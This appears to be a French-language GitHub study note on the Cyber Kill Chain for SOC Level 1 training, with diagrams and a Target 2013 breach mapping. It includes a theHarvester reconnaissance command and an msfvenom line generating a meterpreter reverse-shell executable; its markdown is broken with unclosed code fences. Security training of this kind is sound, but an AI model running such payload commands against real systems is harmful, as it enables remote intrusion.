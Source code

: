 # Cyber-Kill-Chain soc level 1 
The Cyber Kill Chain framework is designed for identification and prevention of the network intrusions. You will learn what the adversaries need to do in order to achieve their goals.
<!-- SCREENSHOT 1 - HEADER -->
![Schéma de la Cyber Kill Chain](images/cyberkillchain.png)  
*Fig.1 - Les 7 étapes de la Cyber Kill Chain (Lockheed Martin)*

## 📌 Introduction
La **Cyber Kill Chain** est un modèle de sécurité qui décrit les étapes d'une cyberattaque. Voici sa décomposition complète :

## 🔍 Les 7 Étapes Clés

### 1. Reconnaissance (Espionnage)
- **Objectif** : Collecter des informations sur la cible
- **Outils** : 
  ```bash
  theHarvester -d entreprise.com -b google # 🔗 Cyber Kill Chain - SOC Level 1 Path

## 2. Weaponization (Armement)
**Définition** :  
Création de l'arme numérique combinant malware et exploit.

**Méthodes** :
- 💾 Documents avec macros malveillantes
- 📦 Exploits zero-day
- 🧩 Kits d'exploitation (Metasploit)

**Outils SOC** :
```bash
# Génération de payload détectable par les SOC
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > malware.exe

# Analyse statique avec FLOSS (SOC Level 1)
floss malware.exe > analysis_report.txt .## 3. Delivery (Livraison)
**Définition** :  
Transmission du payload malveillant à la cible.

**Méthodes courantes** :
```mermaid
pie title Méthodes de Livraison (2023)
    "Phishing" : 65
    "Sites compromis" : 20
    "USB malveillants" : 10
    "Autres" : 5.## 💥 Exploitation (Piratage)

### 🎯 C'est quoi ?
Le moment où le pirate **active son attaque** après être entré dans le système.

### 🔧 Comment ça marche ?
1. Le pirate utilise :
   - Un **lien piégé** (phishing)
   - Une **faille logicielle** (ex: CVE-2023-1234)
   - Une **macro Word** malveillante

2. Résultat :  
   ```text
   [Attaquant]$ Accès réussi !  .## 🔐 Installation (Persistance)

### 🎯 Définition
Phase où l'attaquant s'installe durablement dans le système.

### 🔧 Techniques Courantes
```mermaid
graph TD
    A[Accès initial] --> B[Backdoor]
    A --> C[Web Shell]
    A --> D[Services Windows].## 🕹️ Command & Control (C2)

### 🔌 Définition
Mécanisme permettant aux attaquants de **contrôler à distance** les machines compromises.

### 🌐 Protocoles C2 Courants
```mermaid
pie title Protocoles C2 (2023)
    "HTTPS" : 45
    "DNS" : 30
    "WebSockets" : 15
    "Autres" : 10.## 💰 Actions on Objectives (Exfiltration)

### 🎯 Définition
Phase finale où l'attaquant **réalise son objectif** (vol de données, sabotage, etc.).

### 📦 Méthodes d'Exfiltration
```mermaid
graph LR
    A[Data] -->|FTP| B(Server Attaquant)
    A -->|DNS| B
    A -->|Cloud Storage| B.## 🔍 Practice Analysis - Target Breach 2013

### 📸 Attack Flow Visualization
![Target Breach Kill Chain](images/target_attack.png)  
*Visual breakdown of the Target Corporation cyberattack*

### 🔗 Kill Chain Mapping
```mermaid
graph TD
    A[Recon: HVAC Vendor] --> B[Weapon: Malware]
    B --> C[Delivery: Vendor Portal]
    C --> D[Exploit: Credential Theft]
    D --> E[Lateral Movement]
    E --> F[POS Data Exfiltration].
